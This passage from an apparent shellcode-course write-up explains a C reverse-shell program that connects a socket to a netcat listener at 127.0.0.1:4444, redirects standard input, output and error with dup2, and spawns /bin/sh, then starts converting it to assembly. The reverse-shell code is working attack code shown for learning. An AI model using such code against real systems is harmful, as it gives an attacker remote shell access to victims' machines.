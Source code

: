     // connect to the socket
    connect(client_socket_fd, (struct sockaddr *)&amp;client_address, sizeof(client_address));

    // redirect stdin/stdout/stderr to the socket
    dup2(client_socket_fd, 0);
    dup2(client_socket_fd, 1);
    dup2(client_socket_fd, 2);

    // now that the standard file descriptors are redirected
    // once we spawn /bin/sh, input/output/error are going to be bound
    //      to the socket
    execve("/bin/sh", empty, empty);
}</code></pre><p>The first part is similar to the previous assignment: it creates a TCP socket using the same arguments.</p><p>However, compared to the function <code>bind()</code>, <code>connect()</code> doesn't use the value <code>INADDR_ANY</code>. Instead, it uses a specific IP address to connect to.</p><p>I discovered that you can't just do the following:</p><pre><code class="language-cpp">client_address.sin_addr.s_addr = "127.0.0.1";</code></pre><p>The reason resides in the definition of <a href="https://man7.org/linux/man-pages/man7/ip.7.html">sockaddr_in</a>:</p><pre><code class="language-cpp">struct sockaddr_in {
    sa_family_t    sin_family; /* address family: AF_INET */
    in_port_t      sin_port;   /* port in network byte order */
    struct in_addr sin_addr;   /* internet address */
};

/* Internet address */
struct in_addr {
    uint32_t       s_addr;     /* address in network byte order */
};</code></pre><p>The variable <code>sin_addr</code> isn't simply a string (or a <code>char</code> array): it's an <code>in_addr</code> struct, so we need to convert the string first.</p>
<p>According to <a href="https://web.archive.org/web/20201128162706/https://www.gta.ufrj.br/ensino/eel878/sockets/inet_ntoaman.html">this website</a>, there are two options:</p>
<ul>
<li><code>inet_addr</code>, an old function and theorically deprecated</li>
<li><code>inet_aton</code>, which is the recommended way</li>
</ul>
<p>After that:</p>
<ul>
<li>the function <code>connect()</code> is used for connecting the newly-created socket to <code>127.0.0.1:4444</code> (a netcat listener running on the same machine)</li>
<li>input/output/error is redirected to the socket through the use of the <code>dup2</code> function.</li>
</ul>
<p>Lastly, the syscall <code>execve</code> spawns an <code>SH</code> shell.</p>
<p>Here's what's different from my first attempt at the <code>Bind Shell TCP Shellcode</code>: it seems you don't need to manage the reception of commands and their execution, like I did previously (in the first assignment) using the functions <code>recv</code>, and <code>system</code>.</p>
<p>In fact, after you correctly redirect input/output/error to the remote socket, and spawn a shell, everything else is performed automatically by the system.</p>
<h3 id="assembly">Assembly</h3><p>Follows the first piece of code we need to convert into Assembly code:</p><pre><code class="language-cpp">int main() {
    int client_socket_fd;
    char *empty[] = { 0 };
    struct sockaddr_in client_address;
